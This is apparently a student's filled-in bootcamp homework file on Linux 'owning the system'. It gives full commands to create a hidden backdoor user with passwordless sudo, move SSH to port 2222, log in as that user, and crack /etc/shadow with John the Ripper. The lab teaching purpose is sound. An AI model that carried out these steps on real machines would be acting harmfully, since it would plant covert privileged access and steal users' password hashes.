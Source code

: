 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt.

Save and submit the completed file for your homework submission.

**Step 1: Shadow People**

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - sudo adduser --no-create-home sysd

2. Give your secret user a password:
    - sudo passwd sysd
    - password = passw0rd

3. Give your secret user a system UID < 1000:
    - sudo usermod -u 111 sysd

4. Give your secret user the same GID:
   - sudo usermod -g 111 sysd

5. Give your secret user full `sudo` access without the need for a password:
   - sudo usermod -G sudo sysd
   - sudo visudo

   # Vagrant Privs for config
   vagrant ALL=(ALL) NOPASSWD:ALL
   sysd ALL=(ALL) NOPASSWD:ALL

6. Test that `sudo` access works without your password:

    - sudo su sysd
    - sudo -l

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    - nano /etc/ssh/sshd_config

    #Port 22
    Port 2222

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - sudo service sshd restart

2. Exit the `root` account:
    - exit
    - exit until at green `sysadmin@UbuntuDesktop`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo -s

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - sudo -s
    - sudo john /etc/shadow

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
